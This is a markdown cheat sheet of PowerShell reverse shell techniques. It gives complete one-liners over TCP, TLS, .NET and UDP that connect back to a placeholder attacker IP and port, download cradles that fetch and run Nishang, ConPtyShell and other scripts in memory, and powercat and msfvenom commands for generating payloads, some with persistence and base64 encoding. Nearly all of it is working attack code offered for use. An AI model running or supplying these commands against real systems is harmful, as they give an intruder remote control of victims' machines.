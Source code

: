 # PowerShell

## 01 - Regular

### 1.1. - Command Prompt

Verbosed one-liner.

```powershell
C:\> powershell -NoP -NonI -W Hidden -Exec Bypass -Command "New-Object System.Net.Sockets.TCPClient('<attacker_IP>', <attacker_PORT>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | % {0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (Invoke-Expression $data 2>&1 | Out-String); $sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '; $sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()"
```

Shorter one-liner.

```powershell
C:\> powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('<attacker_IP>', <attacker_PORT>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | % {0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (IEX $data 2>&1 | Out-String); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()"
```

### 1.2 - PowerShell

Verbosed one-liner.

```powershell
$LHOST = '<attacker_ip>'; $LPORT = <attacker_PORT>; $TCPClient = New-Object System.Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object System.IO.StreamReader($NetworkStream); $StreamWriter = New-Object System.IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([System.Text.Encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write('$Output`n'); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Shorter one-liner.

```powershell
PS C:\> $client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()
```

## 02 - TLS PowerShell

```powershell
$sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient = New-Object Net.Sockets.TCPClient('<attacker_IP>', <attacker_PORT>); $NetworkStream = $TCPClient.GetStream(); $SslStream = New-Object Net.Security.SslStream($NetworkStream, $false, ({ $true } -as [Net.Security.RemoteCertificateValidationCallback])); $SslStream.AuthenticateAsClient('cloudflare-dns.com', $null, $sslProtocols, $false); if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) { $SslStream.Close(); exit} $StreamWriter = New-Object IO.StreamWriter($SslStream); function WriteToStream ($String) { [byte[]]$script:Buffer = New-Object System.Byte[] 4096; $StreamWriter.Write($String + 'PS' + (Get-Location).Path '> '); $StreamWriter.Flush() }; WriteToStream ''; while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) { $Command = ([Text.Encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1); $Output = try { Invoke-Expression $Command 2>&1 | Out-String } catch { $_ | Out-String } WriteToStream ($Output) } $StreamWriter.Close()
```

## 03 - .NET

```powershell
PS C:\> $client = [System.Net.Sockets.TcpClient]::new("<IP>", "<PORT>"); $stream = $client.GetStream(); $reader = [System.IO.StreamReader]::new($stream); $writer = [System.IO.StreamWriter]::new($stream); while ($client.Connected) { while ($stream.DataAvailable) { $command = $reader.ReadLine(); $output = (Invoke-Expression $command) 2>&1 | ForEach-Object { $writer.WriteLine($_) }; $writer.Flush(); } }
```

## 04 - Nishang

### 4.1 - TCP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1')

Invoke-PowerShellTcp -Reverse -IPAddress <attacker_IP> -Port <attacker_PORT>
```

### 4.2 - UDP Method

One-liner UDP reverse shell.

```powershell
PS C:\> $endpoint = New-Object System.Net.IPEndPoint ([System.Net.IPAddress]::Parse("<attacker_IP>"), <attacker_PORT>);$client = New-Object System.Net.Sockets.UDPClient(53);[byte[]]$bytes = 0..65535|%{0};$sendbytes = ([text.encoding]::ASCII).GetBytes('PS> ');$client.Send($sendbytes,$sendbytes.Length,$endpoint);while($true){;$receivebytes = $client.Receive([ref]$endpoint);$returndata = ([text.encoding]::ASCII).GetString($receivebytes);$sendback = (iex $returndata 2>&1 | Out-String );$sendbytes = ([text.encoding]::ASCII).GetBytes($sendback);$client.Send($sendbytes,$sendbytes.Length,$endpoint)};$client.Close()
```

Download cradle through memory.

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1')

Invoke-PowerShellUdp -Reverse -IPAddress <attacker_IP> -Port <attacker_PORT>
```

### 4.3 - ICMP Method

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1')

Invoke-PowerShellIcmp -IPAddress <attacker_IP>
```

## 05 - `Invoke-SendReverseShell`

```
PS C:\> IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Arno0x/PowerShellScripts/refs/heads/master/Invoke-SendReverseShell.ps1')
```

Direct connection.

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT>
```

Connection through system's default proxy.

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT> -UseDefaultProxy
```

Connection through manually specified proxy

```
PS C:\> Invoke-SendReverseShell -DestHost <attacker_IP> -DestPort <attacker_PORT> -ProxyName <HTTP_proxy_IP> -ProxyPort <HTTP_proxy_PORT>
```

## 06 - Generate via `powercat`

Generate reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -g
```

Generate base64 encoded reverse shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -ge
```

Persist callback shell.

```
> powercat -c <IP> -p <PORT> -e cmd.exe -rep
```

## 07 - Generate via `msfvenom`

### 7.1 - x86 (32-bit) Payloads

```
$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o implant.bat
```

You can load powershell scripts ahead of time.

```
$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1

$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell.ps1
```

### 7.2 - x86-64 (64-bit) Payloads

You can load powershell scripts ahead of time.

```
$ msfvenom -p windows/x64/powershell_reverse_tcp lhost=<IP> lport=<PORT> LOAD_MODULES="http[s]://<IP>/script.ps1,http[s]://<IP>/script.ps1," -o shell-x64.ps1
```

## 08 - Fully Interactive PowerShell

^d57486

### 8.1 - Method One

This will set the terminal size automatically without passing the `rows` and `cols` manually.

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <attacker_IP> <attacker_PORT>
```

### 8.2 - Method Two

When you encounter an problem to ensure that the `cols` and `rows` are set manually. Here you should use the values read from `stty size` command in the Parameters `-Rows` and `-Cols`

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp <attacker_IP> -RemotePort <attacker_PORT> -Rows <rows> -Cols <columns>
```

### 8.3 - Method Three

Here you should use the values read from `stty size` command in the Parameters `-Rows` and `-Cols`.

```
PS C\> IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -Upgrade -Rows <rows> -Cols <columns>
```

---
## References

### Github

- [MrPineMan: Awesome Reverse Shell](https://github.com/MrPineMan/Awesome-Reverse-Shell)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

- [samratashok: Nishang](https://github.com/samratashok/nishang)

- [Arno0x: PowerShellScripts](https://github.com/Arno0x/PowerShellScripts)

- [Powercat](https://github.com/besimorhino/powercat)

- [antonioCoco: ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

### Hacktricks

- [Hacktricks: Shell Windows](https://book.hacktricks.xyz/shells/shells/windows)

### Ironhackers

- [Ironhackers: Commands in Windows to Get Shell](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)